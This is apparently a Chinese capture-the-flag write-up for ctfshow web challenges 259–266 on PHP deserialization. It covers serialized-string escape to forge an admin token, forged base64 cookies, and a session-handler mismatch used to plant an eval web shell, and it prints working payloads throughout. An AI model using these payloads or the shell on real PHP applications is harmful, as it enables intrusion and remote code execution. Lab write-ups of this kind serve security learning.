   


### web259


### web260

1. 代码审计

   ```php
   <?php
   
   error_reporting(0);
   highlight_file(__FILE__);
   include('flag.php');
   
   if(preg_match('/ctfshow_i_love_36D/',serialize($_GET['ctfshow'])))
     //正则匹配到序列化GET请求的值为ctfshow_i_love_36D，就输出flag
   {
       echo $flag;
   }
   ```

2. 就相当于传值为`ctfshow_i_love_36D`，因为字符串的序列化后的值为`s:18:"ctfshow_i_love_36D";`正好会被正则匹配上

   ```shell
   ?ctfshow=ctfshow_i_love_36D
   ```

   


### web261


### web262

1. 代码审计

   ```php
   <?php
   
   /*
   # -*- coding: utf-8 -*-
   # @Author: h1xa
   # @Date:   2020-12-03 02:37:19
   # @Last Modified by:   h1xa
   # @Last Modified time: 2020-12-03 16:05:38
   # @message.php
   # @email: h1xa@ctfer.com
   # @link: https://ctfer.com
   
   */
   
   error_reporting(0);
   class message{
       public $from;
       public $msg;
       public $to;
       public $token='user';
       public function __construct($f,$m,$t){
           $this->from = $f;
           $this->msg = $m;
           $this->to = $t;
       }
   }
   
   $f = $_GET['f'];
   $m = $_GET['m'];
   $t = $_GET['t'];
   
   //判断传参是否有值
   if(isset($f) && isset($m) && isset($t))
   {
     //创建对象
       $msg = new message($f,$m,$t);
     //这里将序列化中的fuck字符替换成loveU
       $umsg = str_replace('fuck', 'loveU', serialize($msg));
     //设置cookie,进行base64编码
       setcookie('msg',base64_encode($umsg));
       echo 'Your message has been sent';
   }
   
   highlight_file(__FILE__);
   ```

2. 注释里面还提示了一个`message.php`页面

   ```php
    <?php
   /*
   # -*- coding: utf-8 -*-
   # @Author: h1xa
   # @Date:   2020-12-03 15:13:03
   # @Last Modified by:   h1xa
   # @Last Modified time: 2020-12-03 15:17:17
   # @email: h1xa@ctfer.com
   # @link: https://ctfer.com
   
   */
   highlight_file(__FILE__);
   include('flag.php');
   
   class message{
       public $from;
       public $msg;
       public $to;
       public $token='user';
     //魔术方法，当对象被创建时自动调用
       public function __construct($f,$m,$t){
           $this->from = $f;
           $this->msg = $m;
           $this->to = $t;
       }
   }
   
   //检查接收的Cookie是否有值
   if(isset($_COOKIE['msg'])){
     //将cookie值进行base64解码再进行反序列化
       $msg = unserialize(base64_decode($_COOKIE['msg']));
     //当对象的成员token属性值为admin，则输出flag
       if($msg->token=='admin'){
           echo $flag;
       }
   }
   ```

3. 这里有两种解法，先说预期解法，因为在`index.php`中，需要传递参数进行序列化，并对`fuck`进行替换字符串，再设置cookie值，在替换`fuck`时，原本序列化的长度为4，替换之后的文本为`loveU`，长度为5，再进行反序列化时就会有一个字符会被逃逸出来，当我们写的`fuck`足够多的时候，就可以逃逸出来我们构造的恶意代码。

4. 在`message.php`中会反序列化接收到的cookie值，并且在`token==admin`才会输出`flag`，那么我们先输出一下原本序列化后的结果

   ```php
   <<?php
   class message{
       public $from;
       public $msg;
       public $to;
       public $token='user';
       public function __construct($f,$m,$t){
           $this->from = $f;
           $this->msg = $m;
           $this->to = $t;
       }
   }
   
   $f = 'a';
   $m = 'b';
   $t = 'c';
   $a=new message($f,$m,$t);
   echo serialize($a);
   //O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}
   //可以看到我们需要修改的就是这一部分";s:5:"token";s:4:"user";}
   ?>
   ```

5. payload就应该为`";s:5:"token";s:4:"admin";}`，一共27个字符，每构造一次`fuck`被替换可以逃逸出来一个字符，那就需要构造27个`fuck`，来替代`payload`，反序列化时`"`刚好闭合前面的，让后面的`payload`作为反序列化的字符串被执行出来。

   ```php
   <?php
   class message{
       public $from;
       public $msg;
       public $to;
       public $token='user';
       public function __construct($f,$m,$t){
           $this->from = $f;
           $this->msg = $m;
           $this->to = $t;
       }
   }
   $f='a';
   $m='b';
   $t='fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}';
   $msg = serialize(new message($f,$m,$t));
   echo $msg.'<br>';
   //O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:135:"fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}";s:5:"token";s:4:"user";}
   
   $b=str_replace("fuck","loveU",$msg);
   echo $b.'</br>';
   //O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:135:"loveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveU";s:5:"token";s:5:"admin";}";s:5:"token";s:4:"user";}
   
   echo base64_encode($b);
   //Tzo3OiJtZXNzYWdlIjo0OntzOjQ6ImZyb20iO3M6MToiYSI7czozOiJtc2ciO3M6MToiYiI7czoyOiJ0byI7czoxMzU6ImxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVSI7czo1OiJ0b2tlbiI7czo1OiJhZG1pbiI7fSI7czo1OiJ0b2tlbiI7czo0OiJ1c2VyIjt9
   ?>
   ```

6. 利用工具提交就行了

   

7. 非预期解法，因为`message.php`只对传递cookie值进行反序列化中的`token==admin`进行检验，那么我们直接构造`token='admin'`就可以了

   ```php
   <?php
   class message{
       public $from;
       public $msg;
       public $to;
       public $token='admin';
   }
   echo base64_encode(serialize(new message()));
   //Tzo3OiJtZXNzYWdlIjo0OntzOjQ6ImZyb20iO047czozOiJtc2ciO047czoyOiJ0byI7TjtzOjU6InRva2VuIjtzOjU6ImFkbWluIjt9
   ?>
   ```

   


### web263

1. 源码泄漏，访问`www.zip`，把源码下载下来

2. 代码审计，一看到`ini_set('session.serialize_handler', 'php');`就应该是`session反序列化`

   ```php
   #inc.php
   <?php
   error_reporting(0);
   ini_set('display_errors', 0);
   
   //php处理器引擎
   ini_set('session.serialize_handler', 'php');
   date_default_timezone_set("Asia/Shanghai");
   session_start();
   use \CTFSHOW\CTFSHOW; 
   require_once 'CTFSHOW.php';
   $db = new CTFSHOW([
       'database_type' => 'mysql',
       'database_name' => 'web',
       'server' => 'localhost',
       'username' => 'root',
       'password' => 'root',
       'charset' => 'utf8',
       'port' => 3306,
       'prefix' => '',
       'option' => [
           PDO::ATTR_CASE => PDO::CASE_NATURAL
       ]
   ]);
   
   // sql注入检查
   function checkForm($str){
       if(!isset($str)){
           return true;
       }else{
       return preg_match("/select|update|drop|union|and|or|ascii|if|sys|substr|sleep|from|where|0x|hex|bin|char|file|ord|limit|by|\`|\~|\!|\@|\#|\\$|\%|\^|\\|\&|\*|\(|\)|\（|\）|\+|\=|\[|\]|\;|\:|\'|\"|\<|\,|\>|\?/i",$str);
       }
   }
   
   
   class User{
       public $username;
       public $password;
       public $status;
       function __construct($username,$password){
           $this->username = $username;
           $this->password = $password;
       }
       function setStatus($s){
           $this->status=$s;
       }
       function __destruct(){
           file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
       }
   }
   
   /*生成唯一标志
   *标准的UUID格式为：xxxxxxxx-xxxx-xxxx-xxxxxx-xxxxxxxxxx(8-4-4-4-12)
   */
   
   function  uuid()  
   {  
       $chars = md5(uniqid(mt_rand(), true));  
       $uuid = substr ( $chars, 0, 8 ) . '-'
               . substr ( $chars, 8, 4 ) . '-' 
               . substr ( $chars, 12, 4 ) . '-'
               . substr ( $chars, 16, 4 ) . '-'
               . substr ( $chars, 20, 12 );  
       return $uuid ;  
   }  
   ```

   ```php
   #index.php
   <?php
   	error_reporting(0);
   	session_start();
   	//超过5次禁止登陆
   	if(isset($_SESSION['limit'])){
       //这里是变量是假条件，所以不会限制登录，而会不断覆盖session变量
   		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
   		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
   	}else{
   		 setcookie("limit",base64_encode('1'));
   		 $_SESSION['limit']= 1;
   	}
   .....
   ?>
   ```

   ```php
   #check.php
   <?php
   error_reporting(0);
   require_once 'inc/inc.php';
   $GET = array("u"=>$_GET['u'],"pass"=>$_GET['pass']);
   
   
   if($GET){
   
   	$data= $db->get('admin',
   	[	'id',
   		'UserName0'
   	],[
   		"AND"=>[
   		"UserName0[=]"=>$GET['u'],
   		"PassWord1[=]"=>$GET['pass'] //密码必须为128位大小写字母+数字+特殊符号，防止爆破
   		]
   	]);
   	if($data['id']){
   		//登陆成功取消次数累计
   		$_SESSION['limit']= 0;
   		echo json_encode(array("success","msg"=>"欢迎您".$data['UserName0']));
   	}else{
   		//登陆失败累计次数加1
   		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit'])+1);
   		echo json_encode(array("error","msg"=>"登陆失败"));
   	}
   }
   ```

4. 在`inc.php`写了本地处理器引擎是php，所以全局处理器引擎肯定是`php_serialize`，那就可以进行利用了，先找一下`session`是否可控，这里访问`index.php`第一次就被设置了`session`

   ```php
   <?php
   	error_reporting(0);
   	session_start();
   	//超过5次禁止登陆
   	if(isset($_SESSION['limit'])){
       //这里是变量是假条件，所以不会限制登录，而会不断覆盖session变量
   		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
   		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
   	}else{
   		 setcookie("limit",base64_encode('1'));
   		 $_SESSION['limit']= 1;
   	}
   ?>
   ```

5. 在`inc.php`中有`User`类可以进行写入文件操作，那么就可以进行利用了写反序列化链了，这里不知道是服务器的bug还是啥，单独写一句话木马不会被写进文件，要加上另一句才会执行。离谱....

   ```php
   <?php
   class User{
       public $username;
       public $password;
       function __construct(){
           $this->username = "5.php";
           $this->password = '<?php eval($_POST[2]);phpinfo();?>';
       }
   }
   echo base64_encode("|".serialize(new User()));
   //fE86NDoiVXNlciI6Mjp7czo4OiJ1c2VybmFtZSI7czo1OiI1LnBocCI7czo4OiJwYXNzd29yZCI7czozNDoiPD9waHAgZXZhbCgkX1BPU1RbMl0pO3BocGluZm8oKTs/PiI7fQ==
   
   ?>
   ```

6. 先改掉`index.php`的`cookie`值，重新加载后，访问`check.php`用php引擎进行处理`session`变量值进行反序列化操作，写入我们的小马文件

   

7. 访问`log-5.php`利用工具进行连接

   

​	

### web264

1. 这道题是web262的修复版，主要是将`message.php`中msg变量放在了`session`当中，修复了非预期解法，还是用php反序列化字符串逃逸的办法。

2. 解法就不赘述了，直接放代码

   ```php
   <?php
   class message{
       public $from;
       public $msg;
       public $to;
       public $token='user';
       public function __construct($f,$m,$t){
           $this->from = $f;
           $this->msg = $m;
           $this->to = $t;
       }
   }
   
   $payload='fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}';
   // echo strlen($payload);
       $msg = new message(1,2,$payload);
       $old =serialize($msg);
       echo $old;
       $new=str_replace("fuck","loveU",$old);
       echo base64_encode($new);
       // var_dump(unserialize($new));
       //O:7:"message":4:{s:4:"from";i:1;s:3:"msg";i:2;s:2:"to";s:4:"fuck";s:5:"token";s:5:"admin";}
       //payload=";s:5:"token";s:5:"admin";}
       
   ?>
   ```

3. 利用工具先提交首页接收的参数，将序列化的值传入`session`中的msg变量中

   

4. 再访问`message.php`，cookie中随便进行赋值绕过检测

   

5. 再刷新下，进行反序列化操作，让我们的payload逃逸出来，拿到flag

   


### web265

1. 代码审计

   ```php
   <?php
   error_reporting(0);
   include('flag.php');
   highlight_file(__FILE__);
   class ctfshowAdmin{
       public $token;
       public $password;
   
       public function __construct($t,$p){
           $this->token=$t;
           $this->password = $p;
       }
     //成员函数，当执行login方法，要检查token和password值是否全等，并进行返回值
       public function login(){
           return $this->token===$this->password;
       }
   }
   
   //接收值，并进行反序列化
   $ctfshow = unserialize($_GET['ctfshow']);
   //这里使对象中的成员属性值赋值为随机数的md5值
   $ctfshow->token=md5(mt_rand());
   
   if($ctfshow->login())
     //调用成员方法，当为真时输出flag
   {
       echo $flag;
   }
   ```

2. 这里`token`值不可控，所以只能从`password`下手，利用`&`进行构造，当`$password=&$token`那么无论`token`值为多少，`password`都与他相等

   ```php
   <?php
   class ctfshowAdmin{
       public $token;
       public $password;
   
       public function __construct($t,$p){
           $this->token=$t;
           $this->password = &$this->token;
       }
       public function login(){
           return $this->token===$this->password;
       }
   }
   $a =new ctfshowAdmin('123','123');
   $old=serialize($a);
   echo $old;
   
   //O:12:"ctfshowAdmin":2:{s:5:"token";s:3:"123";s:8:"password";R:2;}
   ```

3. 利用工具，url传参数即可

   


### web266

1. 依旧代码审计

   ```php
   <?php
   highlight_file(__FILE__);
   
   include('flag.php');
   $cs = file_get_contents('php://input');
   
   class ctfshow{
       public $username='xxxxxx';
       public $password='xxxxxx';
       public function __construct($u,$p){
           $this->username=$u;
           $this->password=$p;
       }
       public function login(){
           return $this->username===$this->password;
       }
       public function __toString(){
           return $this->username;
       }
       public function __destruct(){
           global $flag;
           echo $flag;
       }
   }
   $ctfshowo=@unserialize($cs);
   if(preg_match('/ctfshow/', $cs)){
     //如果接收到的序列化字符串中有ctfshow就会抛出异常，不会执行__destruct魔术方法
       throw new Exception("Error $ctfshowo",1);
   }
   ```

2. 可以利用对象名大小写进行绕过

   ```php
   <?php
   class CTFshow{
       public $username='xxxxxx';
       public $password='xxxxxx';
   }
   echo serialize(new CTFshow());
   
   //O:7:"CTFshow":2:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";}
   ```

3. 利用工具提交

   

